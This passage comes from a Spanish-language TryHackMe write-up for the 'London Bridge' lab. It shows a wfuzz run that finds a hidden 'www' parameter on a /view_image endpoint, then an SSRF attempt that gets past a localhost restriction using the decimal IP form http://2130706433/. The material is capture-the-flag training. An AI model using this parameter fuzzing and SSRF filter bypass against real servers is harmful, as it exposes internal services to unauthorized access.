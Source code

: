 ```python3
> wfuzz -c -t 20 --hw 67 -X POST --hc 404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -d "FUZZ=http://127.0.0.1" "http://10.10.110.17:8080/view_image"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.110.17:8080/view_image
Total requests: 43007

=====================================================================
ID           Response   Lines    Word       Chars       Payload                    
=====================================================================

000000536:   403        4 L      30 W       239 Ch      "www"    
```

## Explotación
Tras identificar el parámetro *www*, vemos que el servidor nos permite explotar el *SSRF*, pero al parecer está restringido:
![](../assets/img/the_london_bridge-tryhackme-writeup/7.png)

Probamos con algunos de los *Bypass* de *localhost/127.0.0.1* conocidos y logramos evadir la restricción:
```
http://2130706433/
```